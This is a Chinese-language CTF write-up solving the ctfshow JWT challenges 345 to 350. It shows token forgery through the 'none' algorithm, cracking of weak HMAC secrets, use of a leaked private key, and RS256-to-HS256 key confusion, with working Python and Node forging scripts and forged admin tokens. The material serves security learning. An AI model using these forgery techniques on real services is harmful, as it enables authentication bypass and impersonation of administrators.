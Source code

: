 ```yaml
---
title: ctfshow-jwt
id: ctfshow-jwt
---
```


<!-- more -->

jwt解密：[JSON Web Tokens - jwt.io](https://jwt.io/)
[JSON Web Token (JWT) 攻击技巧 - 先知社区 (aliyun.com)](https://xz.aliyun.com/t/2338)



## 345

提升/admin

抓包得到
`auth=eyJhbGciOiJOb25lIiwidHlwIjoiand0In0.W3siaXNzIjoiYWRtaW4iLCJpYXQiOjE2Mjk4MzkxNzcsImV4cCI6MTYyOTg0NjM3NywibmJmIjoxNjI5ODM5MTc3LCJzdWIiOiJ1c2VyIiwianRpIjoiNWU2YmJjZjFhZWVmYmUzMmY2ZDY1OGNhNjhjZTFmYzUifV0`
[JSON Web Tokens - jwt.io](https://jwt.io/)解密一下，或者base64都可以

![](https://i.loli.net/2021/08/25/nP4Yr6st2HJ7ekV.png)

可以看到none，没有加密，也就不存在签名，用base64加密一下直接传cookie就好了

```
eyJhbGciOiJOb25lIiwidHlwIjoiand0In0AW3siaXNzIjoiYWRtaW4iLCJpYXQiOjE2Mjk4NDAzOTksImV4cCI6MTYyOTg0NzU5OSwibmJmIjoxNjI5ODQwMzk5LCJzdWIiOiJhZG1pbiIsImp0aSI6ImE4NDQxMjFkYjRlYTZhNTY0ZDYwZTg1MDBiODU0ZDg3In1d
```

再访问/admin/就拿到flag了

## 346

![](https://i.loli.net/2021/08/25/IDdjWcAeZyPxJHo.png)

看群主方法是secret为弱口令123456，再将user改为admin

还有就是用python将jwt加密算法改为none，user改为admin

> [JSON Web Token (JWT) 攻击技巧 - 先知社区 (aliyun.com)](https://xz.aliyun.com/t/2338)
>
> 签名算法可以确保JWT在传输过程中不会被恶意用户所篡改。
>
> 但头部中的alg字段却可以改为none。
>
> 另外，一些JWT库也支持none算法，即不使用签名算法。当alg字段为空时，后端将不执行签名验证。
>
> 将alg字段改为none后，系统就会从JWT中删除相应的签名数据（这时，JWT就会只含有头部 + ‘.’ + 有效载荷 + ‘.’），然后将其提交给服务器。

```python
import base64
def jwtBase64Encode(x):
    return base64.b64encode(x.encode('utf-8')).decode().replace('+', '-').replace('/', '_').replace('=', '')
header = '{"alg":"none","typ":"JWT"}'
payload = '{"iss":"admin","iat":1629840556,"exp":1629847756,"nbf":1629840556,"sub":"admin","jti":"837101c2606dc36952678bce4166379f"} '

print(jwtBase64Encode(header)+'.'+jwtBase64Encode(payload)+'.')
```

## 347

还是弱口令，也可以用[c-jwt-cracker](https://github.com/brendan-rius/c-jwt-cracker)来将jwt密钥爆破出来
还是123456

![](https://i.loli.net/2021/08/25/8Vz1E6gYWs4jFlI.png)



## 348

爆破，这次用[c-jwt-cracker](https://github.com/brendan-rius/c-jwt-cracker)：
![](https://i.loli.net/2021/08/25/nXZmP8zy3Ul671I.png)得到密钥aaab
然后丢到[JSON Web Tokens - jwt.io](https://jwt.io/)处理一下即可
![](https://i.loli.net/2021/08/25/dPCkoiBG2hbVRwE.png)

## 349

给了一个app.js

```javascript
/* GET home page. */
router.get('/', function(req, res, next) {
  res.type('html');
  var privateKey = fs.readFileSync(process.cwd()+'//public//private.key');
  var token = jwt.sign({ user: 'user' }, privateKey, { algorithm: 'RS256' });
  res.cookie('auth',token);
  res.end('where is flag?');
  
});

router.post('/',function(req,res,next){
	var flag="flag_here";
	res.type('html');
	var auth = req.cookies.auth;
	var cert = fs.readFileSync(process.cwd()+'//public/public.key');  // get public key
	jwt.verify(auth, cert, function(err, decoded) {
	  if(decoded.user==='admin'){
	  	res.end(flag);
	  }else{
	  	res.end('you are not admin');
	  }
	});
});
```

可以看到是密钥泄漏，可以访问/private.key和/public.key获得私钥和公钥
然后在[JSON Web Tokens - jwt.io](https://jwt.io/)修改即可

![](https://i.loli.net/2021/08/25/bfFKED4WC9lGgLs.png)

修改jwt后post方式访问就可以得到flag

![](https://i.loli.net/2021/08/25/kcPMeTrj4pCiUQB.png)



## 350

给了源码，可以在其中获得公钥public.key

```
-----CTFSHOW 36D BOY -----
MIGfMA0GCSqGSIb3DQEBAQUAA4GNADCBiQKBgQDfdIGdsPuxSGPuosgarjZ7zO4t
HHmQ7+6WUiKBA0ykcXe6aK9zcVVKCcEwyMbENgTF4Et8RjZ3NKs1Co74Q+4gII5G
IgQFSS0PzTOKmoTY1fnA6+jqBquV4RnU283kgdaKmkaSRdiwsW2EaagMgZdG6WJk
65RmH98bgnIAGW5nawIDAQAB
-----END PUBLIC KEY-----
```

> [JSON Web Token (JWT) 攻击技巧 - 先知社区 (aliyun.com)](https://xz.aliyun.com/t/2338)
>
> HS256算法使用密钥为所有消息进行签名和验证。
>
> 而RS256算法则使用私钥对消息进行签名并使用公钥进行身份验证。
>
> 如果将算法从RS256改为HS256，则后端代码将使用公钥作为密钥，然后使用HS256算法验证签名。
>
> 由于攻击者有时可以获取公钥，因此，攻击者可以将头部中的算法修改为HS256，然后使用RSA公钥对数据进行签名。
>
> 这样的话，后端代码使用RSA公钥+HS256算法进行签名验证。

一开始想用python的（要安装pyjwt模块）

```python
import jwt
payload = {
  "user": "admin",
  "iat": 1629843927
}
public = open('C:\\Users\\11634\\Desktop\\public.key', 'r').read()
# print(public)
info = jwt.encode(payload, key=public, algorithm='HS256')
print(info)

```

但是发现生成的payload会报错：Cannot read property 'user' of undefined
看了羽师傅的博客猜测是jwt版本上不太对应，还是用羽师傅的node脚本：

jwt库要用题目给的源码中的，就是要保证版本一致。
把脚本文件和public.key都丢到源码文件夹里运行即可

```apl
const jwt = require('jsonwebtoken');
var fs = require('fs');
var privateKey = fs.readFileSync('public.key');
var token = jwt.sign({ user: 'admin' }, privateKey, { algorithm: 'HS256' });
console.log(token)
```

```
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyIjoiYWRtaW4iLCJpYXQiOjE2Mjk4NDQ1Njl9.fsSZJ7uaowtF4NP64WBTPunft-PuQykWdYa4iTup0KI
```

还是post传即可得到flag